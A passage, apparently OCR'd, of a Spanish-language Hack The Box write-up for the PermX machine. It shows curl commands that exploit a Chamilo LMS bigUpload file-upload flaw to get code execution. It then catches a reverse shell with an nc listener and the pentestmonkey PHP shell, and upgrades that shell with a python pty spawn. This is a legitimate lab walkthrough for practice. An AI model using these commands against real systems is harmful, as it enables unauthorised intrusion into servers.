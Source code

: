 ### **Explotación de la vulnerabilidad**

    ┌─[root@parrot]─[/home/user/Desktop/htb/PermX]
    └──╼ curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported' 
        The file has successfully been uploaded.┌─[root@parrot]─[/home/user/Desktop/htb/PermX]
    └──╼ curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
        uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### **Explotación de la reverse shell**

Pues tocaría hacer una reverse shell desde la máquina objetivo. Utilizo el siguiente [.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), sustituyendo mi ip de htb y el puerto que pongo a la escucha con nc -lvnp 1234 desde mi máquina: ![Diagrama de la reverse shell](image6.png)

**Escuchar desde máquina atacante**: (python3 -c 'import pty; pty.spawn("/bin/bash")' para tener una shell mas fácil de usar (resumen resumido))

    ┌─[root@parrot]─[/home/user/Desktop/htb/PermX]
    └──╼ #nc -lvnp 1234
    Listening on 0.0.0.0 1234
    Connection received on 10.10.11.23 56712
    Linux permx 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
     15:27:32 up  1:01,  0 users,  load average: 0.00, 0.01, 0.13
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ python3 -c 'import pty; pty.spawn("/bin/bash")'
    www-data@permx:/$ whoami
    whoami
    www-data
    

**Ejecutar .php**:
